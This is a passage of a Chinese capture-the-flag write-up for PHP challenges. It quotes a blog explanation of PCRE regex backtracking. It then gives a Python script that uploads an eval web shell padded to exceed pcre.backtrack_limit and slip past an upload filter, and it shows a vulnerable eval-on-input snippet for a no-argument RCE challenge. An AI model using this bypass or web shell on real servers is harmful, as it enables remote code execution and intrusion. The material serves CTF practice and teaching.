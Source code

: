 
> [PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)
> 所以，我们题目中的正则
>
> ```
> <\?.*[(`;?>].*
> ```
>
> 假设匹配的输入是`<?php phpinfo();//aaaaa`，实际执行流程是这样的：
>
> ![](https://www.leavesongs.com/media/attachment/2018/11/26/51bfc7bb-fd9a-402e-971a-a2247b226f3d.3adc35af4c1d.png)
>
> 见上图，可见第4步的时候，因为第一个`.*`可以匹配任何字符，所以最终匹配到了输入串的结尾，也就是`//aaaaa`。但此时显然是不对的，因为正则显示`.*`后面还应该有一个字符`[(`;?>]`。
>
> 所以NFA就开始回溯，先吐出一个`a`，输入变成第5步显示的`//aaaa`，但仍然匹配不上正则，继续吐出`a`，变成`//aaa`，仍然匹配不上……
>
> 最终直到吐出`;`，输入变成第12步显示的`<?php phpinfo()`，此时，`.*`匹配的是`php phpinfo()`，而后面的`;`则匹配上
>
> ```
> [(`;?>]
> ```
>
> 这个结果满足正则表达式的要求，于是不再回溯。13步开始向后匹配`;`，14步匹配`.*`，第二个`.*`匹配到了字符串末尾，最后结束匹配。

这里考虑到利用PHP的`pcre.backtrack_limit`限制,其默认回溯上限为100万，所以可以构造一个超长的字符串使得正则匹配失败从而绕过



```php
import requests
from io import BytesIO

f = {
    'file':BytesIO(b'<?php eval($_POST[1]);//'+b'aaaa'*250000)
}
url = "http://241e07f7-835c-4d7d-b016-e1563af9d477.challenge.ctf.show/"
r = requests.post(url,files=f,allow_redirects=False)
print(r.headers)
```

![](https://s2.loli.net/2022/01/09/cb1KZlOno2EDysz.png)

从请求头获得了路径，访问rce即可



## 686-无参数rce

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```
